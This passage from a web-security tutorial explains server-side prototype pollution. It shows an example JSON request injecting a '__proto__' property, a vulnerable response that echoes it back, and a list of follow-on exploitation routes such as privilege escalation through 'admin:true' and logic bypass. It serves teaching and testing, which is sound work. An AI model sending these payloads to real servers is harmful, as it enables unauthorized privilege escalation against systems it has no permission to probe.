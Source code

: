 * Many APIs accept JSON in **POST** or **PUT** requests.
* Often, the server merges incoming data into an existing object (e.g., user profile).
* If vulnerable, polluted prototype properties will appear in the **server’s response object**.

### Example request (polluting with `foo`)

```http
POST /user/update HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json

{
    "user":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "__proto__":{
        "foo":"bar"
    }
}
```

### Example vulnerable response

```http
HTTP/1.1 200 OK
Content-Type: application/json

{
    "username":"wiener",
    "firstName":"Peter",
    "lastName":"Wiener",
    "foo":"bar"
}
```

👉 The injected `"foo":"bar"` shows up even though it wasn’t in the submitted object — confirming **server-side prototype pollution**.

---

## 4. Exploitation potential

* Once confirmed, the next step is **finding gadgets**:

  * Features that merge user input into internal objects (e.g., user profile, session object).
  * Properties that affect security or logic (e.g., `isAdmin`, `role`, `permissions`).
* If attacker-controlled polluted properties are trusted, this can lead to:

  * **Privilege escalation** (e.g., `admin:true`)
  * **Logic bypass**
  * **Persistent injection into JSON/HTML responses** (potential XSS)

---
